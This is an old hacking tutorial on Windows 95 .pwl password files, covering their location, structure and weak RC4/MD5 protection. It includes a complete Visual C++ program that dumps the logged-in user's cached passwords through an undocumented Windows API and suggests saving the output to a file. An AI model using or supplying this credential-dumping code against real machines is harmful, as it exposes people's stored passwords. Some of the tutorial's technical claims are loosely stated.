
 

Windows Password Files Torn Apart By Ankit Fadia ankit@bol.net.in

____________________________________________________________________

 

All, Windows, users would probably be familiar with the infamous ‘pwl’ files or the files where the Windows login passwords are stored. Well, this manual is aimed at, simplifying how the authentication works when you type in your User name And password, what exactly .pwl files contain, where exactly they come into the picture and a whole lot of related things.

 

The *.pwl files are basically files in which the Windows Login Passwords are stored in. These files can be found in the \Windows directory by the name of the User, whose password it contains. For Example, if your Windows login Username is ankit, then the corresponding password would be stored in c:\windows\ankit.pwl Get it? These .pwl files are readable in any text editor like Notepad, but they are definitely not understandable.  A typical example, of the contents of a  .pwl file is as follows:

 

ã‚...-                                                                                                                                                                                                                                                                     

ÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿ

ÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿ

ÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿR   

                                                                      

p u.ÐX+|rÐq"±/2³ Êå¡hCJ‚D  ×  `ÍY¥!íx}(qW¤ãÆ±<!?àÜ6šá˜ôæ4+\3/4õ+%E°ËÔýmÇÔ ÞI»‚ B à×œøÐ...'@

 

This is definitely not something; a normal person can comprehend or make sense of. 

 

Now, besides the Windows registry, Microsoft’s policy of security by obscurity can also be seen in the case of what .pwl files. Although the original usage of .pwl files was a standard to be used, by all applications, Microsoft simply does not officially provide any type of information on the standards of .pwl files. 

 

To get a list of .pwl files in your system or in other words to find out which all passwords using the .pwl technology (What a good friend of mine likes to call them) are being stored on a particular system, then simply open c:\windows\system.ini in a plaintext editor like Notepad and look under the [Password Lists] section. A typical line from this section would be in the following format: USERNAME=Path_of_pwl_file

 

For Example,

 

[Password Lists]

ankit=c:\windows\ankit.pwl

 

This tells us that the .pwl containing the password for the Username ‘ankit’ is stored at: c:\windows\ankit.pwl

 

Anyway, the algorithm which is used in the case of storing information in the .pwl files (rather in the .pwl security option), refers to such files as databases, with each record consisting of three fields-:

 

Resource name 

Resource password 

Resource type (0..255)

Before, I move onto giving details about the above three fields, let us discuss, how exactly the User Authentication process takes place in Windows (In the case of the login password.)

NOTE: The below process is what happens in the case of the Windows login password. 

 

When you first set a new account on Windows, it derives an encryption key from the specified password and creates c:\windows\username.pwl file, where username is the, well, quite obvious. One, thing to note here is that the .pwl file does not, I repeat does not store the login password, nor does it store the Username.(Although its name is same as the Username for whose authentication it is used.) What it stores, will become clearer once you read the below paragraph.

 

Now, the next time, you boot your system and type in your Username and password, then Windows, 

decrypts the .pwl corresponding to the Username provided, using the decrypting key obtained from the password provided. Once, the .pwl file has been decrypted using the decryption key obtained from the provided password, Windows, verifies the checksum. If the checksum is correct or matches, then the user is authenticated else, try again. In the process of checksum verification, the username provided plays an important role.

 

Both the Username and Checksum are encrypted using a simple algorithm: RC4.

 

*****************************

HACKING TRUTH: Although, almost always, the name of the .pwl file is same as the Username, sometimes the name does differ. For Example, if, I use 2 to 3 different applications using .pwl security and then use the same username i.e. ankit in all of them to store passwords, then the naming of the .pwl files would be as follows: 

The first .pwl would be named: ankit.pwl, the second would be named: ankit000.pwl , the third would be: ankit001.pwl and so on.

And, I am not too sure, but from what I gather, Windows never ever overwrites a .pwl file.

******************************

 

Coming, back to the fields. Both the resource name and resource password fields can be binary or simply encrypted and they are interchangeable by the application involved. The Resource Type field can have different numerical values depending upon the software involved. For Example, DUN, Dial Up Server and Windows Login, uses 6 as the value for the Resource Type field. While, Internet Explorer uses 19 as the value of the same field. 

  

One thing to note about Windows Login password algorithms is that, the first time it was introduced, the algorithm was very very weak and allowed passwords to be easily decrypted. However, with each new release, the algorithms used have been improving. However, it still has not reached a reliable level. 

In the algorithms used by various Operating Systems to encrypt their login passwords, the algorithm used by Windows is the worst.  Some common defects are-:

 

The cipher algorithms involved are relatively lame. i.e. RC4 and MD5. They can easily be broken. Refer to: http://hackingtruths.box.sk\algorithms.htm for more info on various Encryption algorithms. 
All passwords are converted to uppercase 
Un-acceptably lame or weak method of storage. 
Various Holes existing in the Password Caching Facility. The following Visual C++ program demonstrates further as to how this vulnerability can be exploited. 
 

/*
(c) 1997, 98 Vitas Ramanchauskas 

Use Visual C++ to compile this into win32 console app.
This code provided for educational purpose only.
!! NO WARRANTY, NO SUPPORT !! 
*/
#include <windows.h>
#include <stdio.h>

typedef struct tagPASSWORD_CACHE_ENTRY {
WORD cbEntry; // size of this entry, in bytes
WORD cbResource; // size of resource name, in bytes
WORD cbPassword; // size of password, in bytes
BYTE iEntry; // entry index
BYTE nType; // type of entry
BYTE abResource[1]; // start of resource name
// password immediately follows resource name
} PASSWORD_CACHE_ENTRY;

char *buf, *ob1;
int cnt = 0;

BOOL CALLBACK pce(PASSWORD_CACHE_ENTRY *x, DWORD)
{
cnt++;
memmove(buf, x->abResource, x->cbResource);
buf[x->cbResource] = 0;
CharToOem(buf, ob1);    // for non-English users
printf("%-30s : ", ob1);

memmove(buf, x->abResource+x->cbResource, x->cbPassword);
buf[x->cbPassword] = 0;
CharToOem(buf, ob1);
printf("%s\n", ob1);

return TRUE;
}

void main()
{
buf = new char[1024];
ob1 = new char[1024];
puts("There is no security in this crazy world!\n"
"Win95 PWL viewer v1.01 (c) 1997, 98 Vitas Ramanchauskas\n"
"************\n"
"!DISCLAIMER!\n"
"!This program intended to be used for legal purpose only!\n"
"************\n\n"
"This program shows cached passwords using standard (but undocumented)\n"
"Windows API on local machine for current user (user must be logged in).\n"
"You may invoke pwlview in this way: pwlview >> textfile.txt\n"
"to save passwords in file (don't forget to press enter twice)\n"
"Press Enter to begin...\n");
getchar();

HINSTANCE hi = LoadLibrary("mpr.dll");
if(!hi)
{
puts("Couldn't load mpr.dll. This program is for Windows 95 only");
return;
}
WORD (__stdcall *enp)(LPSTR, WORD, BYTE, void*, DWORD) =
(WORD (__stdcall *)(LPSTR, WORD, BYTE, void*, DWORD))GetProcAddress(hi, "WNetEnumCachedPasswords");
if(!enp)
{
puts("Couldn't import function. This program is for Windows 95 only");
return;
}
(*enp)(0,0, 0xff, pce, 0);
if(!cnt)
puts("No passwords found.\n"
"Probably password caching was not used or user is not logged in.");
FreeLibrary(hi);
puts("\nPress Enter to quit");
getchar();
}

 

Ankit Fadia

Ankit@bol.net.in

 

http://www.ankitfadia.com


To receive tutorials written by Ankit Fadia on everything you ever dreamt of in your Inbox, join his mailing list by sending a blank email to: programmingforhackers-subscribe@egroups.com

 

Wanna ask a question? Got a comment to make? Criticize, Comment and more…..by sending me an Instant Message on MSN Messenger. The ID that I use is: ankit_fadia@hotmail.com

 

Wanna learn Hacking? Wanna attend monthly lectures and discussions on various Networking/Hacking topics? Lectures, Debates and Discussions, get it all by simply joining The Hacking Truths club by clicking Here


